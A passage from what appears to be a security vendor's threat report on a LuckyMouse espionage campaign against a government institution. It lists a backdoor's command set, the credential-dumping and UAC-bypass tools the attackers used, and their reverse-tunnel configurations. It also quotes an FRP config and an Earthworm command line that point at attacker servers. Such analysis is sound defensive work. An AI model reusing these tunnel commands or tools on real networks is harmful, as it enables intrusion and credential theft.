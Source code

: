 Main commandsSub commandsFunctions0x1FFFFFF Initialize CLI Interface 0x101FFFFCLI Spawn CMD.EXE 0x102FFFFCLI Write Data To File 0x103FFFFCLI List Directory 0x104FFFFCLI ShellExecuteW(0, “Open”, Cmd, 0, 0) 0x106FFFFCLI Change Directory 0x107FFFFCLI Delete File0x2EEEEEE Commands 0x201EEEEEnumerate Drives Info 0x202EEEEEnumerate Files 0x203EEEESend File To C&C 0x204EEEEWrite Data To File 0x 205EEEERun Default App 0x206EEEEShell Execute Open 0x207EEEEDelete File 0x208EEEEDelete Files Recursive0x3DD03DD Serve As Proxy (Hide As Http) 0x30103DDGet Data To Transfer0x3DDDDDD Serve As Proxy (Raw Data)0x5FFFFFF Close Connection0x60AAAAAA Close Connection0x70BBBBBB Reboot0x80CCCCCC Shutdown System0xAFFFFFF Send File To C&C
UAC bypass tool
An open-source UAC bypass tool (https://github.com/vestjoe/WinPwnage) was detected on several compromised devices. It may be used to elevate privileges or achieve persistence on the system. We presume that it was used to execute tasks and programs under administrator-level permissions. 
Port-scanners
Several different port scanners were seen on compromised devices under various filenames. One of the used port scanners was open-source https://github.com/kingron/s. We assume that in this case it was used for scanning the ports of the server to find out which services were running.
Nbtscan
Nbtscan is a command-line NetBIOS scanner for Windows that scans for open NetBIOS name servers in the network.
Passwords dumpers
Mimikatz and Lazagne were seen on the infected computers. We presume that they were used to retrieve credentials from the compromised computers. We’ve also spotted a wrapped Mimikatz version, download from https://github.com/jas502n/mimikat_ssp, on several compromised devices.
FRP
Fast Reverse Proxy (FRP) is a tool that allows you to expose local services that are hidden behind the NAT or a firewall to the internet. Both the raw TCP and UDP are supported as well as several other protocols whose requests can be forwarded to the internal services via this proxy. We’ve recovered a configuration file 3bef4cd.tmp for this proxy. The content of this proxy is the following:
[common]server_addr = 202.59.9[.]58server_port = 8443privilege_token = %token%[SDJY_proxy]type = tcpremote_port = 6001plugin = socks5
It is immediately obvious that the actor used the SOCKS5 plugin to route requests to the compromised network via 202.59.9[.]58:8443.
Figure 10: Diagram of FRP tool usage
Earthworm tunneler
The Earthworm tunneler is considered to be a typical tool for Chinese-speaking actors by Kaspersky[1]. We’ve seen this tool on all compromised systems of national data center. On one of these devices, we’ve managed to recover command-line parameters that were used:  -s rssocks -d 139.180.155.133 -e 80. The tool itself creates a SOCKS tunnel to the provided server. It is publically available at http://rootkiter.com/EarthWorm/.
Conclusions
As this blogpost demonstrates, LuckyMouse has used new methods to infiltrate the government institution through a third party’s system which they attacked. 
Avast has recently protected users in the government institution and national data center from further attacks using the samples we analyzed. We also discovered an interesting encryption method that delivers a hidden IP address in the whitespace of the C&C response. We presume that the attackers updated their attacking toolset in this campaign after it was discovered by Avast.
I would like to thank Adolf Středa, David Zimmer and Anh Ho for helping me with this research.
Indicators of Compromise (IoC)
 Repository: https://github.com/avast/ioc/tree/master/ List of SHA-256: https://github.com/avast/ioc/blob/master/
MITRE ATT&CK techniques
